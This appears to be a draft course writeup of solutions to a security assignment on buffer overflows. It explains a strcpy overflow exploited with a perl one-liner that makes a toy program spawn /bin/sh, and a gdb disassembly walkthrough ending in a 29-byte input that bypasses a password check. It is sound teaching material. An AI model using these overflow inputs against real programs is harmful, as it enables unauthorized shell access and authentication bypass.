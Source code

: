 +++
title = "Writeup for assignment 4"
date = 2020-06-03
summary = "Solutions and explanations for assignment 4"

draft = true
toc = true
type = "docs"

highlight = true
highlight_languages = ["c", "makefile", "shell", "plaintext"]

authors= [
"denisa",
]

[menu.hic2020]
name = "Writeup Assignment 4"
parent = "Assignments"

#weight = 30
+++

## Exercise 1: Simple buffer overflow. Overwrite string
For this exercise we have to give an input to the program such that it executes `/bin/sh` instead of `/bin/ls`. By looking at the code we observe the following:
* `strcpy(buffer, argv[1]);` copies the first argument of the program into the variable `buffer[100]` without specifying the maximum number of bytes to be copied (in this case 100) ==> the buffer can be overflowed
* we observe that the variable `command[10]` which contains the actual command that is run by the program is declared before the variable `buffer[100]`. This means that most likely the content of `command` will follow the content of the `buffer` in the stack.

Therefore, the stack would look like this:
```plaintext
+---------------------------+ higher addresses
| ... |
+---------------------------+
| return address | |
+---------------------------+ |
| base pointer | | stack growth
+---------------------------+ |
| command[10] | |
+---------------------------+ V
| alignment padding (maybe) |
+---------------------------+
|buffer[100] |
+---------------------------+ lower addresses
```

It is now clear that we need to write at least 100 characters to overwrite the buffer and we need to check if there is any padding between the the buffer location and the command location. We do this by providing input longer than 100 and observe how the output is affected. 

Turns out the padding is 2 bytes and an input that spawns a shell is:
```sh
./buffer $(perl -e 'print "a"x102 . "/bin/sh"')
```

## Exercise 2: bypass password verification with gdb 

## I. The normal version
In this exercise we need to figure out what a program does without having the source code. We will use gdb for this, and the first step will be to mark the downloaded file as executable to be able to run it inside gdb: `chmod +x pwd-normal` 

a) We start gdb, then load our program and start it in debugging mode using the following commands:
```sh
$gdb
...
(gdb) file pwd-normal 
Reading symbols from pwd-normal...
(gdb) start
Temporary breakpoint 1 at 0x401c4e: file main.c, line 20.
```
Note that after the `start` command a temporary break point is set automatically at the beginning of the function `main`.

### Information gathering
* we can run the program (by writing `continue` inside gdb) and get a high level intuition about what it is doing. We are required a password and by introducing a random one, the program terminates with the message: Wrong password. (to run it again, write `start`) 
* by restarting the program and running the command `(gdb) info variables` we find out that the main function contains 3 variables:
```C
buf = "`f@\000\000\000\000\000\000g@\000\000\000\000\000\000\000\000"
ok = 0
i = 4890648
```
We observe that `buf` is an array of 19 bytes. (\000 is 1 byte).
* we can now take a look inside the "main" function by typing `(gdb) disassemble main`. Depending on the preference, before running this command we could set the assembly style from att (default) to intel: `(gdb) set disassembly-flavor intel`. Here we can search for the `call` instructions to get information over the functions called from within `main`: printf, gets, sha256, hash_equals, puts.

### Disassemble main
Below we can see the disassembled code for the `main` function. The comments on the right side describe what the instructions accomplish. If you are not so familiar with assembly, you could use the `step` and `ni` command (see gdb documentation) to take one step at a time. Then you could immediately check the values of the local variables (`info locals`) and observe if any of them changed and try to see why. You could also set breakpoints in the code, then by pressing `continue` the execution will stop at that particular point. In order to set breakpoints we use the command `b *address`, where for this particular example the address is the long number that begins with 0x in front of an instruction (below it is omitted).
Another useful gdb command is `x/s address` which help us read strings from a specific memory location. For example, here we can see the location of the string "You're root!"


```assembly
Dump of assembler code for function main:
...46 <+0>: push rbp
...47 <+1>: mov rbp,rsp
...4a <+4>: sub rsp,0x20 |->allocate 32 bytes on the stack
...4e <+8>: mov DWORD PTR [rbp-0x4],0x0 |-> set ok and i to 0 
...55 <+15>: mov DWORD PTR [rbp-0x8],0x0 _|_
...5c <+22>: jmp 0x401c6c <main+38> |
...5e <+24>: mov eax,DWORD PTR [rbp-0x8] |
...61 <+27>: cdqe |
=> ...63 <+29>: mov BYTE PTR [rbp+rax*1-0x20],0x0 |-> for i=0 to 19 
...68 <+34>: add DWORD PTR [rbp-0x8],0x1 | buf[i] = 0
...6c <+38>: cmp DWORD PTR [rbp-0x8],0x13 |
...70 <+42>: jle 0x401c5e <main+24> _|_
...72 <+44>: lea rdi,[rip+0x803c7] # 0x482040 |->printf("Please enter your password")
...79 <+51>: mov eax,0x0 |
...7e <+56>: call 0x40c880 <printf> _|_ | 
...83 <+61>: lea rax,[rbp-0x20] |-> load in rax the address of buffer
...87 <+65>: mov rdi,rax |
...8a <+68>: mov eax,0x0 |
...8f <+73>: call 0x40d380 <gets> _|-> read password into buffer
...94 <+78>: lea rax,[rbp-0x20] |-> rax = buffer address
...98 <+82>: mov edx,0x14 |-> edx = 20 (size of buffer +1)
...9d <+87>: mov rsi,rax |-> rsi = buffer address 
...a0 <+90>: lea rdi,[rip+0xaa659] # 0x4ac300 <hash>
...a7 <+97>: call 0x40573a <sha256> _|_->compute hash of password and put it into address 0x4ac300 <hash>
...ac <+102>: lea rsi,[rip+0x8036d] # 0x482020 <okhash> | 
...b3 <+109>: lea rdi,[rip+0xaa646] # 0x4ac300 <hash> |-> compare computed hash with correct hash
...ba <+116>: call 0x401bf5 <hash_equals> _|_ and return result
...bf <+121>: test eax,eax |-> if result of hash_equals is not 0 
...c1 <+123>: je 0x401cca <main+132> | ok == 1 
...c3 <+125>: mov DWORD PTR [rbp-0x4],0x1 | if ok ==0 
...ca <+132>: cmp DWORD PTR [rbp-0x4],0x0 | then print wrong pass and exit # 0x48206a
...ce <+136>: je 0x401cde <main+152> | else 
...d0 <+138>: lea rdi,[rip+0x80386] # 0x48205d | print You're root! # 0x48205d
...d7 <+145>: call 0x40d4f0 <puts> |
...dc <+150>: jmp 0x401cea <main+164> |
...de <+152>: lea rdi,[rip+0x80385] # 0x48206a | 
...e5 <+159>: call 0x40d4f0 <puts> _|_
...ea <+164>: mov eax,0x0
...ef <+169>: leave 
...f0 <+170>: ret 
```

b) From line <+4>: in the disassembled main, we know that there were allocated 32 bytes for the stack. We also know that the buffer address is the same as the the stack pointer. What we also see is that the `ok` variable is situated next to the base pointer and it has 4 bytes (see line <+8> and <+132> ). Therefore we need 32-4+1=29 characters to overwrite the variable `ok` with a non-zero value, such that the verification from line <+132> becomes true and the message "You're root!" is obtained. An input that bypasses the password is `aaaabbbbccccddddeeeeffffggggh`. 

## II. The hard version
In the hard version of the exercise there is no information about the program variables. Therefore the command `info variables` does not offer anything. The approach for this version is to disassemble the `main` function just like before and analyze the assembly line by line. We can still see the function names and look into the memory for strings (with `x/s address`) which gives us an intuition of the program flow. Here, even if we do not have the variable names we can see that at the top of the stack (position `rbp-0x20`)there is a buffer of size 19 (see lines <+22>: to <+42>:) that is updated byte by byte. We can also see that depending on the value of the variable situated at the position `rbp-0x4` we become root or not (if the value is non zero). Following the same logic as before, we can deduce that a 29-byte input will get us to root. 


